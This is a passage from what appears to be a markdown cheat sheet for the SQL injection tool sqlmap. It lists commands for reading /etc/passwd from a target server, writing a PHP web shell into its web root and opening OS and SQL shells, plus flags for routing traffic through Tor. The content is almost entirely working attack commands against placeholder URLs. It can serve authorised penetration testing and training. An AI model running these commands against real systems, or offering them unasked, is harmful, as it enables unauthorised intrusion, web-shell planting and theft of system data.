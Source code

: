 Use `--identify-waf` to detect WAF

## 💾 File Operations

### Read a File
```bash
sqlmap -u <URL> --file-read="/etc/passwd"
```

### Write a File
```bash
sqlmap -u <URL> --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

## 💉 Shell Access

### Get OS Shell
```bash
sqlmap -u <URL> --os-shell
```

### Get SQL Shell
```bash
sqlmap -u <URL> --sql-shell
```

## 📜 Useful Flags

| Flag             | Description                     |
|------------------|---------------------------------|
| `--batch`        | Non-interactive mode            |
| `--threads=N`    | Use multiple threads            |
| `--tor`          | Use Tor for anonymity           |
| `--proxy`        | Use a proxy (e.g. http://...)   |
| `--timeout=N`    | Set request timeout             |
| `--retries=N`    | Retry failed requests N times   |

---
---
---
---
---